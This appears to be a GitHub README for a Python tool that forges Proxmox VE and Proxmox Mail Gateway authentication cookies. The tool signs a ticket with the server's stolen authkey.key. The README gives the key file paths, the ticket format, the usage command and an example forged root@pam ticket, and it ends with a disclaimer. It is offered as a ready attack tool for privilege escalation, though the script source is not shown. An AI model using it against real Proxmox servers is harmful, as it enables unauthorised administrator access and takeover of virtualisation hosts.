 ## ProxmoxAuthForge
This Python script is a modified version of the original proof of concept by Li JianTao ([@cursered](https://x.com/cursered)), designed for forging PVE (Proxmox VE) authentication tokens. The script generates the cookie "PVEAuthCookie" or "PMGAuthCookie" by using the `authkey.key` of a Proxmox instance for signing.

For more details, visit: [Multiple Vulnerabilities in Proxmox VE & Proxmox Mail Gateway](https://starlabs.sg/blog/2022/12-multiple-vulnerabilites-in-proxmox-ve--proxmox-mail-gateway/#privilege-escalation-in-pmg-via-unsecured-backup-file).

## Authentication Mechanism in PVE/PMG
- Authentication in PVE and PMG is implemented by signing and verifying a string with RSA/SHA-1.
- Upon successful login, the server issues a signed “ticket” for the client, known as “PVEAuthCookie” or “PMGAuthCookie”.
- The ticket format is `PVE:{username}@{realm}:{hex(timestamp)}`; the signature is created using a private key stored at `/etc/pve/priv/authkey.key` for *PVE*, or `/etc/pmg/pmg-authkey.key` for *PMG*.

## Script Usage
```bash
python3 pve_token_forger.py <path_to_authkey> <system_type> <username>

# Example usage
python3 pve_token_forger.py /etc/pve/priv/authkey.key PVE root@pam -h
PVE:root@pam:6582A001::mSoWs0OiTIiT9XlvkUT/kojDzIvAQaSF76kdGULdVb3a7L5d70lQyimQvrGccsbg8bdCOB5B5G4YlwDyjsr/xWAVQB8DvdFMu3h/W+e8/FGQ+yhUC4z/Rwivqjw2BHS8ConmiYl1AFxxStwXCWdyqk6b3+f3WP+Vj5QlJAC1xeT4CRUBA9YeuGNL9NBd8u9NqHzicMhd00vCPD+9ekna68hLA4sPbqIoCAe/IiLDLpeVgImqAVTaW2j20KjumEIwPf1G+i+lSwfw+Xbe2e6s6bz0sgirITR5r5hHDOO8vMaKnV2yOcP3xuBWM87LPhMwN3QuP5oluEkWUZ7OZh2/Tw=
```


---

*The script is for informational and educational purposes only. The author and contributors of this script are not responsible for any misuse or damage caused by this tool.*
